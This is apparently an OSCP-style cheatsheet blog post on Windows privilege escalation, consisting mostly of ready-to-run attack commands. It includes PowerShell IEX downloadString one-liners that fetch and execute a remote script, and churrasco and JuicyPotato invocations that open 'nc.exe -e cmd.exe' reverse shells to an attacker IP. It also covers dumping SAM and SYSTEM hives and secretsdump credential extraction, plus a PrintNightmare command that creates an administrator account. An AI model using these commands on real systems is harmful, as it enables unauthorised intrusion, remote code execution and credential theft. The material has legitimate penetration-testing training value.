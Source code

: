 ```yaml
---
title: Windows Privilege Escalation
author: linatl
category: "OSCP"
date: "2021-03-13 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```


###### Tricks to improve a crappy shell
```
rlwrap
> rlwrap -r nc -nvlp 443
```

###### Check Architecture of a PowerShell connection

~|32 bit folder|64 bit folder|
---|---|---
32-bit session | C:\Windows\system32\ | C:\Windows\sysNative
64-bit session | C:\Windows\sysWOW64\ | C:\Windows\system32

```
Check architecture of the host
> [system.environment]::Is64BitOperatingSystem

Check architecture of powershell environment:
> [Environment]::Is64BitProcess

alternative to check arch in ps environment:
> [IntPtr]::Size
The value of this property is 4 in a 32-bit process, and 8 in a 64-bit process.

For example: If you get a shell trough a webserver running in a 32bit process but the host is 64bit, powershell will by default open a 32bit process.
This can be solved by specifically calling powershell with the following path:
C:\Windows\sysNative\WindowsPowerShell\v1.0\powershell.exe

More info:
https://ss64.com/nt/syntax-64bit.html
```


/// To be tested:
###### Start Process with PowerShell
```
How to use powershell to pop a second shell
> Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://192.168.1.1/file.ps1')"


Starting a shell as Administrator (when the permissions are right)

First: make a variable of the password.
Because windows doesnt like it when you pass passwords in plain text to a command.
> $SecPass = ConvertTo-SecureString "password" -AsPlainText -Force
> $cred = New-Object System.Management.Automation.PSCredential('Administrator', $SecPass)

Pop the shell:
> Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://192.168.1.1/file.ps1')" -Credential $cred
```


###### Hashdump
```
Dumping SAM hashes from CMD:
https://miloserdov.org/?p=4129

reg save hklm\sam c:\sam
reg save hklm\system c:\system

Location:
C:/Windows/System32/config/SAM
C:/Windows/System32/config/SYSTEM

Dumping hashes from attack machine:
impacket-secretsdump domain.local/username@10.10.10.10 -just-dc
```

###### Token Kidnapping on Windows Server 2003 / 2008 with Churrasco

```
If you are Network Service or Local Service and SeImpersonatePrivilege is Enabled, this will probably work.

> git clone https://github.com/Re4son/Churrasco
after uploading the exe:

Execute Command
> churrasco.exe -d "whoami"
Using nc.exe to start a reverse shell connection
> churrasco.exe -d "c:\Users\username\Documents\nc.exe -e cmd.exe 192.168.1.1 443"
```

###### Potato attacks
```
If both SeChangeNotifyPrivilege and SeImpersonatePrivilege are enabled

Hot Potato
https://foxglovesecurity.com/2016/01/16/hot-potato/

Rotten Potato
https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/
https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/rottenpotato

Juicy Potato
https://github.com/ohpe/juicy-potato
https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato
x86 variant:
https://github.com/ivanitlearning/Juicy-Potato-x86/releases/tag/1.2

Example juicy potato:

List of CLSID's:
http://ohpe.it/juicy-potato/CLSID/

On attacker system:
> nc -nvlp 80
On target system:
First upload nc.exe & JuicyPotato.exe, and place it in current dir
> JuicyPotato.exe -l 80 -p c:\cmd.exe -a "/c c:\nc.exe -e cmd.exe 192.168.1.1 80" -t *
Or using a different CLSID:
> JuicyPotato.exe -l 80 -p c:\cmd.exe -a "/c c:\nc.exe -e cmd.exe 192.168.1.1 80" -c {03ca98d6-ff5d-49b8-abc6-03dd84127020} -t *
```

###### RunAs
###### Registry Tricks
###### AlwaysInstallElevated
###### Autorun
###### Service Permissions
###### Unquoted Path
###### DLL Hijacking


###### Port Forwarding
```

https://github.com/jpillora/chisel
1 upload chisel to the box

2 start chisel on kali
$ ./chisel_1.6.0_linux_amd64 server -p 8000 --reverse

3 run chisel on the target
$ .\c.exe client 10.10.14.20:8000 R:8888:localhost:8888

4 see if the connection is made
port 8888 on kali should be listening now:
$ netstat -ntlp

5 do stuff from kali on address 127.0.0.1 port 8888
```


###### Schtasks
```
> schtasks /query /fo LIST /v
> tasklist /SVC
```

###### PrintNightmare
```
https://github.com/calebstewart/CVE-2021-1675/

Run with (in powershell):
> powershell -exec bypass -command "& { Import-Module .\CVE-2021-1675.ps1; Invoke-Nightmare; }"
> Invoke-Nightmare -NewUser "username" -NewPassword "password" -DriverName "PrintMe"
```

###### HiveNightmare
```
https://github.com/GossiTheDog/HiveNightmare

Works on all supported versions of Windows 10, where System Protection is enabled (should be enabled by default in most configurations).
Check for vuln by checking if the patch for CVE-2021–36934 is installed, and by checking if system protection is enabled (with rstrui.exe ?)
```

###### Windows (Kernel) Exploits
```
MS10-059 (SecWiki)
MS11-046 (SecWiki)
MS16-032 (Use the one from Empire)
MS15-051 (SecWiki)
```

###### Kernel Exploits ~ Resources
```
Seclists
https://github.com/SecWiki/windows-kernel-exploits

Empire
https://github.com/EmpireProject/Empire/tree/master/data/module_source
```

